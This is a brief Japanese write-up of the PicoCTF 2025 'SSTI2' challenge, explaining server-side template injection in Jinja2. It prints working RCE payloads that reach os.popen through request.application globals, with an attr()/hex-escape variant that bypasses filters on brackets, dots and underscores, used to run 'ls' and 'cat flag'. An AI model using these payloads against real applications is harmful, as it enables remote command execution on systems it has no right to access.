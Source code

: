 PicoCTF 2025　SSTI2

SSTIとは、テンプレートインジェクションのこと
```
テンプレートエンジン: データの表示場所を埋め込んだhtmlなどのテンプレートに対して、適切に変数の中身を埋め込んで出力するエンジン
この機能を悪用し、悪意ある文字列を入力することで、意図しない変数の中身を表示したり、RCEを起こしたりする脆弱性。
クライアント側かサーバ側かで2通りある。
・SSTI: Server-Side Template Injection, Server-Sideでテンプレートエンジンを動かして色々やる
・CSTI: Client-Side Template Injection, Client-Sideでテンプレートエンジンを動かして色々やる
```
https://github.com/DiogoMRSilva/websitesVulnerableToSSTI
ここにいろいろリスト化されているので、どのテンプレートエンジンを使っているかを特定する

Jinja2だとわかったので、それに向けた攻撃を行う

[]　.　_が使えない状態だったので、
```
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```
というコマンドを
```
{{ request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')() }}
```
に変換


これでファイルの位置がわかるので、catで表示させる
```
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```
を変換させて
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
```
とするとフラグを得ることができる。
くわしいことは <#1421031496545996873> 参照

参考
https://onsecurity.io/article/server-side-template-injection-with-jinja2/
https://qiita.com/NF0000/items/6d8526065eee4cd89bf6
https://zenn.dev/claustra01/articles/733856e685bd54#ssti2-%5B200pt%5D
https://zenn.dev/tetsurou/articles/8aead514a144fe#ssti2---200pt